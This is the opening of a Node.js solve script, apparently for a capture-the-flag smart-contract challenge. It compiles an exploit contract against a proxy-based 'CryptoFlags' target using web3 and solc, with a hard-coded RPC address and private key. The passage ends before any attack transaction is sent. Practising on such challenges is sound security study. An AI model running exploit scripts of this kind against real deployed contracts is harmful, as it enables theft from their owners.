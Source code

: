 {% prism js %}
const { Web3 } = require("web3");
const solc = require("solc");
const path = require("path");
const fs = require("fs");

const RPC_URL = "http://10.244.0.1:8545";
const CONFIG = JSON.parse(`
    {
        "setup": "0x042ecBf75FC7A76562C1123E735Eb22C570fc4f9",
        "address": "0x048bB2aDD31d4df0b19BF210ef0858035B109c75",
        "private_key": "0xc8a0d23425d64c81c328a98aab95ab250fc8effb5d990699ef521440e0b55372"
    }
`)
const PRIVATE_KEY = CONFIG["private_key"]; 
const SETUP = CONFIG["setup"];

const web3 = new Web3(RPC_URL);
const account = web3.eth.accounts.privateKeyToAccount(PRIVATE_KEY);
web3.eth.accounts.wallet.add(account);

const sourceFiles = [
  "Exploit.sol",
  "ERC721_flattened.sol",
  "CryptoFlags.sol",
  "Setup.sol",
  "UpgradeableProxy.sol"
];

(async () => {
  const input = {
    language: "Solidity",
    sources: Object.fromEntries(
      sourceFiles.map(file => [
        file,
        {
          content: fs.readFileSync(path.join(__dirname, file), "utf8"),
        }
      ])
    ),
    settings: {
      outputSelection: {
        '*': {
          '*': ['*'],
        },
      },
    },
  };
  const compiled = JSON.parse(solc.compile(JSON.stringify(input)));
  const { evm: { bytecode: { object: exploitImplBytecode } }, abi: exploitImplAbi } = compiled.contracts["Exploit.sol"]["ExploitImpl"];
  const { evm: { bytecode: { object: exploitBytecode } }, abi: exploitAbi } = compiled.contracts["Exploit.sol"]["Exploit"];
